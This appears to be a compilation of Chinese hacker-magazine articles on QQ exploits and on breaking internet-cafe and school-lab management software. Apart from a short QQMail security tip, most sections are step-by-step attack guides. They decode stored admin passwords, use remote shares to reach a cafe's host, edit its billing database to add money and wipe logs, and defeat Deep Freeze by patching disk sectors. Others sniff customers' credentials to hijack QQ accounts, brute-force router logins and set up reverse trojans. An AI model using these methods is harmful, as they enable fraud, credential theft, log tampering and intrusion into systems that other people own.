我个人很喜欢 QQMail 这个纯粹的电子邮箱，没有花哨的功能，也没有浓重的广告味。但是在QQ盗号如此盛行的今天，相信很多读者都和我一样担心某一天QQ被盗了，造成QQ邮箱里的重要邮件和联系人的丢失，所以就没有把QQ邮箱作为自己主要使用的邮箱。现在好了，因为我们可以单独为QQ邮箱设置密码，邮箱里还可以给文件夹上锁，邮件数据再也不用担心了。

### 一、文件夹上锁

单击邮箱顶部“设置”，切换到“我的文件夹”，在“新建文件夹”前面的输入框里新建几个文件夹，用来分类存放你平时的邮件，比如“我的好友”“我的工作文档”等等（图1）。


图1


图2

创建好文件夹后，点击下方的“加锁文件夹”，输入密码后点击确定即可（图2）。“把发件箱/收件箱中相应的邮件移动到你设置好的文件夹中，文件夹加密就完成了，以后要查看文件夹里的邮件就会要求我们输入密码才行（图3）。


图3

### 二、邮箱上锁

单击邮箱常规设置下方的“设置独立密码”（图4），和上面的操作一样输入密码后点击确认即可。以后登录邮箱时，如果是以 WEB 方式登录的（http://mail.qq.com），那么密码就必须填写我们设置的邮箱密码；如果是在QQ面板上直接点击打开的，那么没有密码打开的邮箱处于“独立密码保护模式”，也是无法查看邮箱里的邮件的。如果认为设置独立密码很麻烦，没什么意义，那么也可以在“基本设置”中取消独立密码。

要注意的是，邮箱密码和QQ密码最好不要相同，免得有些菜菜运用社会工程学就可以轻松进入邮箱；而邮箱密码和文件夹密码最好也不要相同，这样我们文件夹里的重要邮件就又多了一重保护。


图4

### 三、不足之处

虽然说给邮箱设置了独立密码，可以在一定程度上防止盗QQ者删除我们的重要邮件，但是对方还是可以查看/删除联系人的（图5），因此平时我们还要及时备份联系人才好（图6）。


图5


图6

## 滴滴点点恢复QQ好友

腾讯近日新推出了一项QQ好友资料恢复系统。QQ号丢失、好友资料被误删后，可通过该服务按时间段恢复被删除的好友，并在QQ客户端中通过“好友与资料/更新好友”等操作找回联系人。


## 凝聚暴力破解QQ相册密码

对于想查看加密QQ相册的用户，文中介绍了通过站点工具输入QQ号与相册ID，选择破解方式与密码位数后进行尝试破解的流程，并展示了从相册链接获取ID、开始破解到得到结果提示的全过程。


## Qzone漏洞又来了，五级花你养了吗？

W./c 小悟

在今年第二期的杂志中曾经介绍过领养5级花的文章，可当我看到文章去领养的时候，漏洞已经被腾讯补上了。好在最近QQ空间又被发现了新的漏洞。以前的漏洞只能领养五级花，不能开花也不能结人参果，但新的漏洞完全可以。网上的大虾们针对这个漏洞已经编写出了领养五级花人参果的工具，我们就用它吧（图1）。

来领养五级花，点击装扮空间→养植物→5级植物→选择植物，在选择好的植物上点击鼠标右键→属性→图片地址。比如 `http://imgcache.qq.com/qzone/space_item/pre/3/2467.gif`，把这个地址填到工具上方的“领养花的地址”中，然后点击确定，如图2。


图1


图2

在工具最左上角“登录QQ空间”下的“号码”栏中填入我们的QQ号码，“密码”栏输入我们的QQ密码。因为这个工具并不验证我们是否登录成功QQ空间，所以密码可以随便填写，“验证”栏同样也可以随便填写。点击“登录”按钮后就会提示我们登录成功了。接下来会跳转到我们的空间。

然后点击工具上方的“领养五级花人参果”，就可以成功了，直接点保存装扮方案，刷新看看，哈哈，有五级花了吧，还有人参果呢，如图3。不仅仅可以领养五级的花，1-5级的都可以领养。


图3

（本文所涉及到的领养五级花人参果工具已收录到光盘中）

## QQ的两个小BUG

[G-AVR] Greysign

近来我在使用QQ的过程中发现了两个BUG，下面是对这两个BUG的描述及利用思路。

- **BUG-1：接收离线时发送的文件，导致客户端非法关闭**  
  我们有时通过QQ发送文件，但对方却没有在线，这时QQ就会提示你是否使用邮件发送。当你选择了否，QQ会发送接收文件的请求给对方。当对方上线的时候，就会自动弹出一个接收请求。在点接收以后，就会进行文件的传送；但当对方关闭了聊天窗口，这时候QQ就会提示出错，客户端被强制关闭。这就是传送文件时的时差导致出错，没有同步。

- **BUG-2：接收手机发送截图时，客户端被强制关闭**  
  使用手机登录QQ，目前已经可以发送图片了，但本文我们是要发送截图，手机当然无法发送截图了，我们应该怎么做呢？首先，使用手机QQ2007版本登录，这时候你的好友得到你的客户端信息是手机QQ客户端；此时你使用电脑登录桌面版QQ，这时候你的好友没有更新你的客户端信息，他们还是认为你的客户端是手机QQ。当然了，你此时已经在使用电脑了，他们需要重新登录QQ才能更新你的客户端信息。这个时候我们就可以动攻击了：使用QQ的屏幕截图功能，随便截一张图，找一个好友，打开聊天窗口发送过去。要注意，不是传送文件，而是直接发送图片。你的好友就会弹出一个窗口开始读取图片了。最重要的时刻到了：当他读取图片的时候，客户端就会强制非法关闭。

关于BUG的应用：第一个BUG还没有那么严重，可以跟朋友开开玩笑。让他登录QQ的时候接收文件导致出错，最多也就造成他还没接收的信息丢失。第二个BUG就比较严重了。我们要做的就是发送截图，对方只要在线，就可能遭到攻击，而且我测试了几个版本的QQ，都没有幸免，最新的2007版本也是没有躲过攻击。（本文涉及到的QQ两个BUG的演示动画已收录到光盘中）

## 网吧流量无限制之登录海王星

公子许


在网吧里上网确实不爽，花了钱不说，还有各种限制。作者在网吧下载 SQL2005 教程时遭遇上传下载限制，并出现“不要长时间进行大量上传和下载”的提示。由此怀疑网吧对下载流量进行了限制，决定排查。


作者重启后数据丢失，进一步确认限制机制存在。通过任务管理器发现可疑进程，定位到 HepViewClient / HepView 相关程序，并查到其为“海王星局域网客户机流量监视器”。说明中提到可监控流量、自动告警、断网、重启、查看进程和屏幕等。


作者检查程序目录后，重点打开 setting.ini 配置文件，并尝试根据论坛经验分析热键与密码字段。

```ini
[Hotkey]
sett=78
[SysSet]
Display=0
AutoRun=0
FileType=1
Open=1
Psw=131150144142145143151
[ServerSet]
link=***.***.***.***
```


根据配置项推测热键：`sett=78` 对应 ALT+SHIFT+N（A=65 起算）。按下热键可弹出登录框，但直接乱输密码会报错，需要从 Psw 字段还原密码。

1. 去掉 `Psw` 的前三位：`131`，得到 `150144142145143151`。  
2. 每三位分组：`150 144 142 145 143 151`。  
3. 每组减去 94：`56 50 48 51 49 57`。  
4. 按 ASCII 十进制转字符，得到密码：`820319`。

得到密码后可进入设置界面，点击“结束运行”即可终止监控客户端，从而解除下载限制。文末说明：如果任务管理器无法结束进程，可通过程序目录与配置文件方式恢复密码后再结束软件。

## 挖出网络妙管家的管理员密码

吉荣羿


学校附近新开了家连锁网吧，配置不错、显示器也大，玩起来很爽。作者在查看常见设置时，发现登录与计费相关软件存在可利用点，于是开始尝试进一步分析。


文中描述：在还原卡或管理软件环境中，可通过相关工具读取到还原卡密码（文中给出演示值），并据此继续尝试获得更高权限。


随后作者讨论了网络妙管家客户端安装时的权限选项、管理员组设置，以及在命令行中使用 `net user Administrator ******` 之类方式进行账号操作的思路。


文章继续分析自动登录相关注册表项（如 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`），说明可通过修改 `AutoAdminLogon`、`DefaultUserName` 等键值实现自动登录行为。


字符串值 `DefaultPassword`，并设置其值为用户的密码，所以我们只要打开注册表查看 `DefaultPassword` 的值就可以知道登录密码了……在 CMD 中输入 `Regedit` 来打开注册表……（图4）。`DefaultPassword` 的值为空……我发现了两种方法。

第一种方法，在 `clt2kxp` 目录下找到 `crUser.exe` 文件……使用 WinHex 打开 `crUser.exe` 文件……在 WinHex 中使用“查找文本”查找关键字“Users”，并勾选上“Unicode 字符集”……这个就应该是密码了（图5）。使用 `RunAs /User:Sicent cmd` 命令验证密码的正确性，密码正确。

第二种方法，借助 ADump 读取管理员密码……在命令提示符下输入 `ADump -d`，就会显示登录的系统管理员用户名和密码了（图6）。……本文只是给大家一个变相思维的提示……更重要的就是多看看我们的黑客 X 档案，共同为网络安全做出自己的贡献。

## 简易破解 hr2004

Conquer 〆M


学校机房里的电脑使用的是 Win2000 系统，管理软件使用的是“hr2004 型机房登录系统”（图1），我在 `C:\winnt\system32` 目录里找到了一个名叫 `hrclient.exe` 的文件……这个程序是直接删不掉的，删除后系统会重新建立该文件。


图1


图3

接下来先把自己的卡号注销……然后按 Ctrl+Alt+Del 选择锁定计算机，再输入另外一个管理员用户名……系统将刚才新建的那个文件夹假地址打开了（图4）。


图2

我突然来了灵感，在 `system32` 目录中新建了一个文件夹并把 `hrclient.exe` 文件拖了进去……再把刚才新建的这个文件夹的名字改为了 `hrclient.exe`……如图3。


图4

上述方法可能会因为具体情况不同而有些差异，但主体思路是不变的……可以说是最简单的“偷梁换柱”破解法吧。

> X 小编评：这篇文章的方法实质上与本期精彩栏目中的方法相同，希望大家看完文章后不仅要学会方法，更要明白“方法是死的，人是活的”这句话。

## 网吧小菜也玩万象2004

上期破解万象2004的方法实在是太危险了，卸载万象2004的客户端，我可不敢做，要是被网管抓住了肯定是暴打一顿。玩黑嘛，特别是在网吧里面玩黑，安全还是第一嘛！下面就来看我的安全入侵方法。

### 一、利用 lansee 找到主机的 IP 地址

首先来找到网吧主机的 IP 地址，我们可以使用 lansee，打开软件后点击“搜索计算机”，就会显示整个网吧内全部正在使用的电脑 IP 地址了，如图1。为了便于区别主机和其它的客户机，通常网吧主机的名称及 IP 都是非常好认的，我们仔细对比一下，就会很容易地找到了。

### 二、利用 recton V2.5 创建共享

我们记下网吧主机的 IP 地址，然后打开 recton V2.5，选择“共享”，在远程主机处填入刚才使用 lansee 扫描得到的网吧主机 IP，用户名使用默认的 Administrator，密码为空。然后在界面下方的条形空白处点击鼠标右键，选择“显示共享”，便会显示出主机已经共享的文件了。


不过显示出来的都不是我们想要的万象文件，没有关系，我们自己来建立。再次点击右键，选择“创建共享”，在出现的对话框里输入 `D$`，点确定后又会出现对话框，再输入 `d:\`，然后连续点确定两次（因为还会出现一个这样的对话框，但可以不填），如图2。

> 提示：因为这家网吧的万象文件夹是存放在 D 盘的，所以我才输入了 `D$` 和 `d:\`，别的网吧中的情况可能会不同，大家可以自己找找看，万象文件名一般为 Octopus。


### 三、映射

为了操作方便，我们可以将主机的 `d:\` 映射到自己使用的电脑上，我使用的是网吧 PUBWIN 无痕一条龙来映射的，如图3。打开“我的电脑”，选择“工具”下的“映射网络驱动器”也可以进行映射。

### 四、利用 access 密码终结3.01 查看万象登录密码

打开“access 密码终结3.01”，选择“打开文件”，找到万象文件夹中的 `Oct2003.mdb`，如图4，就会在 access 密码终结的条形框内出现万象的数据库密码了。

### 五、利用数据库管理助手加钱

现在万象的数据库密码也到手了，可以开始修改数据来加钱了。打开“数据库管理助手”，点击“连接”，再选择“Access 文件”，这时会出现浏览框，选择万象数据库文件 `Oct2003.mdb`，在密码处输入刚刚在“access 密码终结”得到的密码，点一下连接即可连接到万象的数据库。

因为我是使用会员卡上机的，所以就以给会员卡加钱做实验，如图5。点击左边数据表显示区的“tUsers”，在右边会出现网吧内所有的会员信息。在上面的空白处输入自己的卡号，在后面选择“sCardID”，再点搜索按钮就可以看到我们自己的会员卡信息了。

要给自己的会员卡加钱只要在后面的数字处用鼠标右键点一下，然后输入你要加的钱的数量，然后再点上面的“对勾”。现在查看一下你的余额，怎么样，是不是已经增加了。


是不是已经增加了！我加钱前的余额如图6所示、加钱后的余额如图7所示。由于我是做示范，并且我的卡上也有不少钱，因此就加得不多。

### 六、关闭共享，删除日志

加完钱后是不是很高兴？先别着急，我们刚才所做的事有可能被主机日志记录下来，要真是那样，用过了这一次就别想有下次了。

为了能够长久地玩下去，我们还是先清除掉我们的痕迹吧。


首先打开 recton 关闭刚才我们创建的共享，在软件目录下我们创建的共享盘上点一个鼠标右键，选择出现的“关闭共享”即可，如图8。别急着关掉 recton，点击上排选项中的“日志”，里面已经有我们填写了的主机 IP，我们只要直接点击“开始执行”就能清除日志了，如图9。最后一步就是关闭映射到“我的电脑”中的主机共享系统盘，如图10。到此我们所有的过程就全部结束了，这种方法非常安全，现在大家都已经学会了吧！

（文字中涉及到的工具 lansee、recton V2.5、PUBWIN 无痕一条龙、access 密码终结3.01、数据库管理助手，光盘中已收录）

## 偷天换日之攻破 NBOSS 免费上网


关于网吧破解的文章越来越多，破解的方法也是各式各样。不过，网管软件在这场矛与盾的较量中也没有闲着，这不，NBOSS（Net Bar Operation Support System）连锁网吧管理系统已经越来越多地出现在我们熟悉的网吧里了，据其官方网站报道说在全国已有700多家分店了。


据介绍，NBOSS 可以防止非法结束计费进程，进程被终止后将会自动再生（在旧的 3.3.3.0 版本中，是可以结束掉 `Nboss-srv.exe` 和 `Net BarClient.exe` 进程的，但对于目前新的版本已经没有用了）。上网的电脑在与服务器网络断开一段时间后，系统会自动锁屏。如果使用管理员帐号上机的话，只能上机10分钟，并且会用红色告警提示主机，更夸张的是进入网络安全模式或卸载客户端后，系统会出现倒计时关机，就像中了冲击波和震荡波病毒时一样，如图1。


以前常用的一些破解网吧的方法，对于 NBOSS 都是行不通的，我的破解思路是这样的：如果我们卸载了客户端，那么原理上本机就不受主机的管理了，但一分钟后系统还是会自动关机。当客户端与主机断开网络或客户端遭到破坏，主机会发出锁屏或自动关机的信息。既然如此，那我们为何不在系统出现倒计时关机前再安装一个相同的客户端呢？那样的话是不是能够瞒天过海来躲过主机的监控呢？

祭出我的武器冰刃 Icesword、精锐辅助工具以及相应的 Nboss 客户端（注意：我们使用的客户端必须和卸载之前的客户端版本一样，否则是不会被破解成功的。大多数网吧为了方便系统升级及安装一些常用的工具，都会打开主机上的共享，当然权限有可能会设置成只读，我们到共享里就有可能会找到管理软件了，当然也可以到网上去搜索下载）。

首先打开精锐辅助工具，点击“程序卸载”，选中“连锁网吧运营管理系统上网终端”，点击“卸载选中软件”，如图2。接着打开 NBOSS 客户端的安装程序，注意不要安装在 C 盘，我选择安装在了 E 盘。在安装过程中，会弹出“注册编辑已被管理员停用”的提示，不要管它，点击确定就可以了。安装成功后会提醒我们“重启”系统，选择取消，否则我们的辛勤努力就会被还原卡给浪费了。

使用冰刃 Icesword 结束 `Netbar Client.exe` 计费进程，然后快速打开安装客户端的那个目录，找到 Net BarClient，其图标是一个小齿轮，如图3。双击打开后就会弹出登录界面，我们会发现登录界面显示“与服务器连接失败”，如图4，不用管它，直接输入管理员帐号（admin）和原始密码（fhs）进行登录，我们就会看见熟悉的桌面了。


## 网吧黑客

由于刚安装的客户端没有进行设置，自然也就不会和主机连通，在主机处也就不会显示我们在使用管理员账号进行登录。但令我奇怪的是，在使用管理员账号登录10分钟后，并没有弹出到登录界面，而是和往常一样，而且我们的会员只能在别处登录了（这套系统限定一个账号一机），这说明我们破解成功了！没有时间的限定，没有别人的打扰，我们终于可以自由地上网了。强悍的 NBOSS 就这样被我们摆平了。但值得注意的是，前边破解的步骤不能颠倒，否则将找不到电脑上原有的客户端，只能找到刚安装的客户端，而且整个步骤一定要快。

> （本文所涉及到的 Icesword 和精锐网吧辅助工具已收录到光盘中）


## 三招破解网吧关键词

SDRing

经常在网吧上网的朋友应该都遇到过感兴趣的资源被屏蔽的情况，特别是使用 IE 打开某些网站时，窗口会被自动关闭，这让人十分扫兴（图1）。不过，网吧屏蔽关键字的方式是比较简单的，看我们如何来突破它吧！


### 1. 以硬制硬

我们仔细看一下图1，就可以明白这种方法的糟糕了。那就使用一些软件的退出确认功能来屏蔽该软件死机，比如我在上网中搜索“黑客”，OPERA 的退出确认功能就起作用了。这时我们只要按住“Esc”键，然后用鼠标点击要打开的搜索项就可以了。使用这种方法也可以登录含有关关键词的论坛，登录时先打开一个记事本，把要输入的信息输入，再选中复制，使用鼠标切换到 Opera 登录框上，先点击一下登录框，这时会有关闭提示，不用理会，按 Esc，提示框消失后的短暂时间里，用快捷键将内容复制到登录框内就行了（这种方法适合耐性比较好或者有闲工夫的人）。

### 2. 易容伪装

绝大多数的软件都会有标题，关键词过滤软件只要发现标题框中有“违禁”的关键字，就会关闭这个窗口。我们来看一下常见的关键字吧（图2），对于这种情况，可以使用资源编辑软件来改变标题中的关键字。比如“ExEScope、FreeRes、GetVBRes、ResHack、ResScope”等，这样屏蔽软件就会“盲目”了。比如我们将 WINHEX（在网吧中一般会禁止这个软件的运行，以防止破解还原卡等）改装成 SDRHEX，就可以正常使用了（图3）。

### 3. 连根拔起

打开 IceSword（冰刃），看看进程里有没有什么可疑的。奇怪了，怎么会有两个 `Explorer.exe` 呢？那个图标异常的 `Explorer.exe` 实在是可疑啊（图4），那么我们就来结束它……


关键字的限制就一下子安静了（图5）。既然 IceSword 已经指出了程序路径，那么我们就去看看是何方神圣吧（图6），这个 `netbar.dll` 使用记事本打开后就是如图2所示的关键字。可能有读者会说，既然我们知道了限制软件的位置，干脆直接删除不就行了。别忙，因为网吧是限制删除功能的，虽然说可以使用第三方文件管理软件来删除这两个文件，不过千万别这么做。一个朋友告诉过我，他把那个 `netbar.dll` 修改了几个关键字并保存后，计算机会关闭打开的一切窗口并不断尝试关机，然后网管就……所以说破解这种事情达到目的就可以了，千万不要太贪心，做人也是如此啊！


## 挖出万象的管理密码

摆渡人

万象 2004 的密码是存放在注册表里或是存放在一个名为 `mcfer.dat` 的文件里的。对于第一种情况，我们可以运行注册表（虽然大多数网吧里的注册表编辑器都是禁用的，不过相信经常看黑客 X 档案的朋友对于这种限制的破解应该是轻而易举的）。如果嫌麻烦的话也可以使用工具来突破注册表的限制，比如椰树网吧辅助工具等，找到 `HKEY_USERS\S-1-5-21-443042724-1909000480-1701653656-1000\Software\sicent\wx2004Clt`（注：由于万象版本的不同，中间的数字也许不会完全相同），查看右边名称为 `!!!RunSetCipher` 对应的键值，`698D51A19D8A121CE581499D7B701668` 就是系统设置的密码；名称 `!!!UnlockCipher` 对应的键值是管理员解锁的密码，`!!!ExitCipher` 对应的是退出密码，`!!!IESetCipher` 对应的则是 IE 设置密码（图1）。


`698D51A19D8A121CE581499D7B701668` 是通过 MD5 加密后的密文，我们可以到 `www.cmd5.com` 等在线破解网站进行破解，当然也可以使用 MD5 破解工具来进行破解。通过查询对应的明文密码是 `111`（图2）。

对于第二种情况，我们可以利用系统的文件搜索功能直接搜索 `mcfer.dat` 文件或使用冰刃查找（一般都会是隐藏的）。找到之后使用记事本打开我们就会看见 `!!!RunSetCipher`、`!!!UnlockCipher`、`!!!IESetCipher` 三个字符串，这就是 32 位 MD5 加密的密文了，破解密码的方法同上。


我们在有了密码后，下面该怎么办呢？在万象会员登录的界面一共有三个选项：登录、充值、管理。我们选择管理，在密码栏里输入刚获得的密码，计算机就解锁了。但为了不被网管把计算机锁定或重启，我们需要改一下万象的端口设置。右键单击任务栏里的万象图标（图3），选择“设置”→“系统设置”（图4），输入获得的万象设置密码（图5）。在“一般设置”里把远程端口和本地端口改了，改什么随便（图6）。好了，现在就可以免费上网了。怎么样？以后咱们菜鸟上网也可以免费了（注：此方法在万象 2004 + Windows XP/Windows 2000 的环境中测试通过）。


## 冰点还原终极破解大法

冰点（Deep Freeze）又译为冰冻，是一款广泛应用于网吧或学校机房的还原软件。冰点的还原原理和还原卡、还原精灵不同，后者是修改 MBR 为自己的引导代码，在 BIOS 把控制权交给 MBR 时开始运行；而冰点则是在 Windows 启动时被触发启动，即它是在 Windows 中运行的软件，所以使用还原卡或还原精灵的破解工具对冰点不起作用。

冰点的主要配置信息包括是否还原硬盘的改变、控制台密码等都保存在系统盘的 `Persi0.sys` 文件中。分别拷贝出设定为 Boot Frozen（启动还原）和 Boot Thawed（启动不还原）的 `Persi0.sys` 文件，通过命令行下的 `fc /b` 命令，二进制比较后发现 Boot Frozen 与 Boot Thawed 在 `Persi0.sys` 文件中的差别只有 4 个字节（图1）。


对应位置上 Boot Frozen 是 `7D 6E CB DD`，而 Boot Thawed 是 `82 91 34 22`。此四个字节的标记（以下简称还原标记）在 `Persi0.sys` 中的位置随版本不同而变化。冰点就是通过 `Persi0.sys` 中的这四个字节来决定启动后是否保存硬盘改变。

在 Windows 下直接修改 `Persi0.sys` 并不可靠，因为运行时受系统保护。若能在 Windows 下通过“硬盘直接访问程序”定位该文件并改写还原标记，即可达到下次启动不还原的目的。

首先打开 WinHex 的磁盘编辑器，选择安装冰点的系统盘，打开详细资料面板及目录浏览器（图2），找到并单击 `Persi0.sys` 文件。


十六进制窗口中的数据并非 `Persi0.sys` 的真实内容，冰点通过保护手段使 WinHex 读取到伪数据。可先记录详细资料面板中 `Persi0.sys` 第一扇区的物理扇区编号（如 1816731，图3），再用硬盘直接读写程序按 LBA 读取该扇区并保存为 `boot.bin`，然后在 WinHex 中打开该文件查看真实标记（图4）。


使用 WinHex 将这四个字节由 `82 91 34 22` 改回 `7D 6E CB DD`（或反向修改），保存 `boot.bin`。再用硬盘直接写程序把修改后的 `boot.bin` 写回 `Persi0.sys` 第一扇区。确认后即可绕过系统保护修改 `Persi0.sys`（图6），实现是否还原的切换。

| 版本 | 5.4 | 5.7 | 5.0 |
|---|---|---|---|
| Boot Frozen | 7D 6E CB DD | 7D 6E CB DD | 7D 6E CB DD |
| Boot Thawed | 82 91 34 22 | 82 91 34 22 | 82 91 34 22 |
| 还原标记偏移 | B8 到 BF（示意） | B8 到 BF（示意） | B8 到 BF（示意） |


重启系统后若看到冰点图标出现红叉，表示冰点已不再生效，此时硬盘改动将被保存。若需完全卸载，可找到对应版本安装包进行覆盖卸载，或通过热键调出控制框后操作。

同理也可以修改冰点密码。密码加密后的结果同样保存在 `Persi0.sys` 中，通过比较不同密码下的文件可定位偏移并得到密文长度信息。文中给出了一组示例加密结果用于说明该方法可行。

09ED3A2C30360494B71693D298A6163154A99191728F9F252F7AACE4FEE20EB9112E6E9C9FD79EB0CC6A0F1C2CD353E3D83C0AD6F379C5C。我们只要将 Persi0.sys 中加密后密码的值改为以上值，就可以直接修改密码为 123456789 了。我就以最新版本 6.0 为例简单说一下修改冰点密码的过程。

在 6.0 版本中，密码加密后放在 Persi0.sys 中偏移量 46A 到偏移量 4EF 的 86 个字节中。先打开 WinHex，找到 Persi0.sys 的开始处，选择“位置→跳到偏移量→相对当前位置”，填入 46A，跳转，记下详细面板中此位置的物理扇区。然后使用硬盘直接访问程序读取此扇区到 boot.ini 中，找到加密后密码的参数为 123456789 加密后的结果，保存后，使用硬盘直接访问程序写入原扇区即可完成修改。按 Shift+Ctrl+Alt+F6 调出密码输入框，填入 123456789 即可进入。

使用对比的方法很容易找出一些有用的信息，虽然我们不知道具体的信息（比如加密后的密码），但我们可以把它们修改为我们需要的内容。使用这样的思想可以很容易地破解软件。

> （本文所涉及到的 WinHex 和硬盘直接访问程序 1.1 已收录到光盘中）


## 网吧黑客

## 网吧坐客“删”到底

对于初到杭州的我来说，杭州的冬天还是比较冷的，在外面才逛了一小会儿就冻得全身发抖，最后还是“逃”进了附近的一家网吧……这家网吧中的电脑配置还算不错，系统使用的是 Windows XP 专业版，网吧计费管理系统使用的是 PubWin EP，还装有还原精灵等软件（图1）。系统在使用上并没有什么太严格的限制，不像有些网吧，除了浏览网页、聊天和玩游戏外，其他什么事都干不了。这个网吧唯一限制了删除文件（图2）。


### 一、使用批处理命令来突破限制

这家网吧只是限制了删除文件，但没有限制新建文件与重命名文件，这使得我们有机可乘。我就是使用 DEL 命令来删除文件的。例如要删除的文件是 1.jpg，先新建一个批处理文件 del.bat，再用记事本打开，在里面输入如下代码：

```bat
:try
del *.jpg
if exist *.jpg goto try
del %0
```

保存后双击运行，1.jpg 与 del.bat 都会被删除掉，而且不会留下任何痕迹。上面的批处理命令很简单，先删除目标文件并循环检查是否删除成功，最后用 `del %0` 删除批处理自身。

### 二、设置回收站的属性

如果网吧管理员禁止使用批处理文件，那上面的方法就行不通了。删除文件时常出现确认对话框，只需设置回收站属性即可绕过：在“全局”选项中取消“显示删除确认对话框”，并勾选“删除时不将文件移入回收站，而是彻底删除”，之后再删除文件就不会留下痕迹。


### 三、使用 WinRAR 或第三方软件删除

不管是个人电脑还是网吧电脑，通常都会安装 WinRAR。可以利用其“添加到压缩文件”功能，在常规选项中勾选“压缩后删除源文件”（图5），确定后即可在压缩同时删除原文件。


现在我们虽然是删除了这些文件，但是同时却又生成了一个压缩包，别人还是可以看到压缩包里的文件。这个压缩包使用 WinRAR 是删除不了的，但是我们可以使用记事本把里面的数据给清除掉。打开记事本程序，再选“文件”→“另存为”命令，在另存为对话框中将保存类型设置为“所有文件”，再选择刚才生成的压缩包文件后点“保存”按钮，当询问是否替换时点“是”将压缩包替换掉，再将记事本关闭就 OK 了。再看看压缩包的属性，大小是 0 字节，双击打开试试，会提示数据已经被损坏。嘿嘿，是不是神不知鬼不觉啊。除此之外，Windows 优化大师也带了一个文件粉碎机工具，如果网管安装了优化大师，在其目录中找找看，WomWipe.exe 就是文件粉碎机。

限制与破解总是相对存在的，有限制就有破解，有破解就有限制，网管与菜鸟的战争是永远也不会停止的。

（本文所涉及到的文件粉碎机已收录到光盘中）

## 巧用工具+社会工程学获取密码

提渡人

在以前的《黑客X档案》上曾经介绍过如何在网吧中获取 MM 的 QQ 号，以及如何利用局域网的嗅探技术来获取网吧中万象会员帐号和密码的方法，相信这些各位读者都已经轻松地掌握了。不过，也有一些小菜可能会认为那些方法比较麻烦，我就从网上找到了一个小工具——万象会员帐号密码获取工具（破解器），把这个小工具在网吧内任意一台电脑上运行，就可以轻松地获取整个网吧当时所有在线用户的会员帐号和密码了，很厉害吧！


这个工具的界面上只有扫描深度、开始扫描和退出三个选项，典型的傻瓜式工具，即使没有接触过电脑的菜鸟也会一下子学会使用，如图1。

扫描深度建议选最深，开始扫描，扫描的速度很快，几秒钟之后结果就出来了，如图2。

知道了会员的帐号和密码就可以使用别人的帐号来上机了！此外，还有别的用途。大多数在网吧中上网的菜鸟都有个习惯，就是所有的密码都喜欢使用一样的，我们利用的就是这点。


我找到网管说 01809 会员是我的朋友，我要找他，他在几号机上网。网管告诉我说他是 63 号机。知道了他在机号，我们可以利用另外一个小工具——QQ 第六感。安装完毕后进行注册（自带注册码），然后打开，选择 IP 地址最后一位是 63 的电脑（大多数网吧中的电脑，其 IP 地址的最后一位都与机号是相同的），开始监听 QQ 号，几秒钟后就监听到了，如图3。

打开 QQ，号码输入 729744689，使用我们获得的密码 1986611 来尝试登录，成功地登录了上去，如图4。另外，如果他的 QQ 个人说明里也写了他的邮箱之类的话，我们也可以使用相同的密码来进行尝试登录！

（本文所涉及到的万象会员帐号密码获取工具和 QQ 第六感已收录到光盘中）

## 教你做个“小流氓”

正义的小偷

不知道大家有没有使用过世纪黑马，这个可是很火的哟，因为它有一个菜鸟非常喜欢的功能——“小流氓”下载。我去过的所有网吧，还没有哪一个是“小流氓”所不能突破的！不过，黑马提供的“小流氓”下载软件实在是太少了，根本不能满足各位菜鸟的需要，实在是遗憾！现在，就让我来教大家制作自己的“小流氓”吧！

首先，我们需要有一个网页空间，可以把制作好的网页上传上去。正好前些日子《黑客X档案》有免费空间要赠送，物尽其用，就不多说了。

第一步：新建一个 TXT 文件，在其中输入如下内容：

```html
<body onload="alert('正义的小偷');document.execCommand('saveas','','a.rar');"></body>
<input type=button value='保存(S)' title='点击这里另存也可' onclick="execCommand('saveas','','a.rar')" accesskey=s>
```

把文件保存成一个 HTML 文件（比如 2.html）。以上内容的作用是在网吧网页之后弹出一个窗口，确定后弹出一个保存对话框；同时点击网页中的保存按钮，也会弹出一个保存对话框。其中 a.rar 是保存的软件文件名，可以任意修改；而“正义的小偷”这句是第一个弹出窗口的内容，也可以自己修改，比如加个自己的名字，挺有意思的。

第二步：把需要下载的软件压缩成一个 RAR 文件（不这样也可以，但保存的文件名相应地也需要更改，我压缩成的文件是 1.rar），和刚才的那个 2.html 放在同一目录下，例如保存在 F 盘。

第三步：打开 CMD，进入 F 盘使用文件合并命令合并刚才的 RAR 文件和 HTML 文件：`copy 1.rar/b+2.html/a 3.html`。其中 1.rar 和 2.html 是刚才的两个文件，3.html 是最后要生成的网页文件。合并成功后，在同一目录下会生成一个 3.html 文件。

好了，我们打开试试，怎么样？和世纪黑马的效果一样吧（下图），赶快把它上传到我们的空间上去。这样，就做成自己个性的网吧下载破解网页了。


## 菜鸟破解网吧路由器密码与木马上线

黑侠（Black Mask）

对于如何破解网吧路由器的账号和密码，虽然我在以前的文章里也曾经介绍过一些方法，但是仍然在论坛上会看到许多菜鸟朋友问：路由器的密码应该如何破解？灰鸽子上线如何在路由器上制作端口映射？那么本文我就来总结几个破解路由器密码的方法，以及如何实现内网中反弹木马的上线！

### 一、扫描路由器端口

为了路由器的安全，网管通常都会将路由器的默认端口（80）更改掉，所以我们破解路由器密码的第一步就是必须要找到路由器的 WEB 管理端口。我告诉大家一个小技巧：如果路由器上的 UPnP 功能是开启的（通常路由器默认情况下 UPnP 都是开启的），那么路由器一定会开放一个 1900 端口。我们以 TP-Link 路由器为例，只要打开路由器的 `http://192.168.1.1:1900/igd.xml`，如图1，查看其中的 `http://192.168.1.1:8080`，8080 就是当前路由器 WEB 的登录端口了。

如果 UPnP 被网管关闭了的话，那么我们就只能通过扫描工具来扫描了。打开 X-Scan，输入 IP 地址 192.168.1.1，在扫描模块里选择“开放服务”，在“插件设置”的“端口相关设置”里输入端口范围 1-65535，确定后再点击扫描。X-Scan 的扫描速度很快，不一会儿就可以扫描出路由器所开放的端口，如图3。


好了，端口已经找到了，打开 IE 在地址栏中输入 `http://192.168.1.1:8080`，路由器的登录窗口出现了，如图4。我们可以输入一些常见的用户名和密码试试，如果不行的话，就只有使用工具来进行密码破解了。

### 二、破解路由器密码

我介绍一个功能比较强大的路由器破解软件 WebCrack4.0，打开 WebCrack4.0 后的界面如图5所示。


在“用户名文件”栏选择用户名的字典文件，在“使用用户名字典”栏选择密码字典文件，在 URL 里输入路由器的 WEB 管理地址 `http://192.168.1.1:8080`，在用户名里填 `admin`，就是说明先从 admin 开始破解（密码字典文件大家可以自己去制作），如图6。


点击上方的“开始”按钮，在弹出的 Confirm 对话框选择 NO（不保存）。程序会自动开始破解，速度很快。破解完毕后点击下方“发现密码”，就可以看到已经破解出来的密码，如图8。

### 三、反弹木马的上线设置

- 1. 路由器端口映射

